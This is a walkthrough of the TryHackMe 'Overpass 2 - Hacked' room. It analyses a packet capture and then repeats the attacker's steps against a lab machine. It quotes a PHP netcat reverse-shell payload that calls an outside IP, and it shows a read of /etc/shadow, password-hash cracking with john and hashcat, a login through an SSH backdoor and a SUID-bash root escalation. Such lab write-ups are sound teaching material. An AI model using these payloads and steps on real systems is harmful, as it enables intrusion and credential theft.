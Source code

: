 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

## Tools 

- Wireshark https://www.wireshark.org/download.html
- Strings
- John The Ripper https://www.openwall.com/john/
- hashcat https://hashcat.net/hashcat/

##  Forensics - Analyse the PCAP

- Download `overpass2.pcapng`.
- Check and match `md5sum` of the file to verify file.

```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```
- We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
- With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
- Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
- With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
- Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
- Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
- Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
- We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
- Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
- Then we can run john to check.

```bash
john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
- Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code

- We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
- Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
- Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
- Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
- As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.

```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```
- Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

- Start Machine to get IP.
- Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
- We have repeat attackers steps. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password. We need to use `-oHostKeyAlgorithms=+ssh-rsa` to get ssh as there is an error.

```bash
ssh -p 2222 james@10.10.136.126
Unable to negotiate with 10.10.136.126 port 2222: no matching host key type found. Their offer: ssh-rsa
$ ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.136.126 -p 2222
The authenticity of host '[10.10.136.126]:2222 ([10.10.136.126]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.136.126]:2222' (RSA) to the list of known hosts.
james@10.10.136.126's password: *******
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```
- Question `What's the user flag?` Answer `thm{****************}`

```bash
james@overpass-production:/home/james/ssh-backdoor$ cat /home/james/user.txt
thm{****************}
```
- By using SUID find command `find . -perm /4000` we got a unusual file `/home/james/.suid_bash`. We can get suid exploit for it here https://gtfobins.github.io/gtfobins/bash/#suid
- Question `What's the root flag?` Answer `thm{***************************}`

```bash
james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt 
thm{***************************}
```

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
